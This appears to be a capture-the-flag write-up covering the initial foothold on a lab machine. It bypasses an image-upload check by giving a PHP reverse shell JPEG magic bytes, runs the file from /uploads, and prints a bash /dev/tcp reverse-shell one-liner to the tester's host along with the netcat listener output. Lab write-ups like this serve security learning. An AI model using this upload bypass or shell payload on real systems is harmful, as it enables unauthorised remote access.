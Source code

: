 # Foothold

## Checking procedure
- We can upload files in http://10.10.10.146/upload.php. The input is sanitized, and can upload images
![[Pasted image 20210425090739.png]]
- We can check the filename that has been uploaded from the `photos.php` page.
![[Pasted image 20210425090911.png]]
- From the source code, we can see that the files are stored in /uploads
```php
cat upload.php                                                                                        127 ↵ 
<?php                                                                                                           
require '/var/www/html/lib.php';                                                                                
                                                                                                                
define("UPLOAD_DIR", "/var/www/html/uploads/");                                                                 
                                                                                                                
if( isset($_POST['submit']) ) {                                                                                 
  if (!empty($_FILES["myFile"])) {                                                                              
    $myFile = $_FILES["myFile"];                                                                                
                                                                                                                
```
- We can check this by accessing the uploads directory with the file name from photos.php

## Getting reverse shell
- We can upload a reverse shell, and change the magic bytes of the file to jpg : `FF D8 FF DB` using any hex editor.
![[Pasted image 20210425091144.png]]
- Upload this file and access it through the /uploads directory
![[Pasted image 20210425091243.png]]
- We can check RCE
![[Pasted image 20210425091314.png]]
- Get a reverse shell using any payload. I used: `bash -c 'bash -i >& /dev/tcp/10.10.14.18/9001 0>&1'`
```bash
nc -lnvp 9001                                                                                           1 ↵ 
listening on [any] 9001 ...
connect to [10.10.14.18] from (UNKNOWN) [10.10.10.146] 34312
bash: no job control in this shell
bash-4.2$ ls

```
